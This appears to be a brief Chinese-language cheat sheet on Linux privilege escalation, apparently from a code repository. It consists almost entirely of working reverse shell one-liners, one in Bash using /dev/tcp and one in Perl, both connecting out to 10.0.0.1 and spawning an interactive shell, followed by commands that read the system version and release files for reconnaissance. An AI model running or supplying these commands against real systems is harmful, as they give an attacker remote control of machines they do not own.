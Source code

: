 # GUN Linux 提权笔记

### Shell反弹
    1.1 *Bash反弹*
``` sh
$ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
    1.2 *Perl反弹*
``` sh
$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### 查看系统版本

``` sh
$ uname -a
$ cat /etc/*-release
$ cat /etc/issue
```
